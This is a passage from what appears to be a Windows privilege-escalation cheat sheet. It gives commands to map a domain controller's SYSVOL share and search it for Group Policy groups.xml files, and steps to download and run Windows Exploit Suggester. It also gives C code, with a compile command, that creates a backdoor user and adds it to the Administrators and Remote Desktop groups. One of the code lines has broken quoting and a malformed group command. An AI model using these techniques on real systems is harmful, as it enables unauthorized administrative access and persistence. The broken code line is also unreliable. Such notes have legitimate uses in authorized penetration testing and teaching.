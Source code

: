 Map to Domain Controller sysvol:

    net use Z: \\<dc>\SYSVOL

Search for group policy xml:

    z:
    dir /s /q groups.xml

## Search for kernel vulnerabilities.

Copy systeminfo to a text file on attacking machine.

Download Windows Exploit Suggester:

    wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py

Download bulletin database:

    wget http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx

Install requirements:

    apt -y install python-xlrd

Run:

    python windows-exploit-suggester.py --systeminfo systeminfo.txt --database BulletinSearch.xlsx

## Common Simple Overwrite Code

Create an admin user and add to administrator and remote desktop groups:

    #include <stdlib.h>
    int main ()
    {
        system("net user <user> <password> /add");
        system("net localgroup administrators <user> /add");
        system("net localgroup administrators "Remote Desktop Users" <user> /add");
        return 0;
    }

Compile:

    i686-w64-mingw32-gcc <file>.c -lws2_32 -o <output>.exe
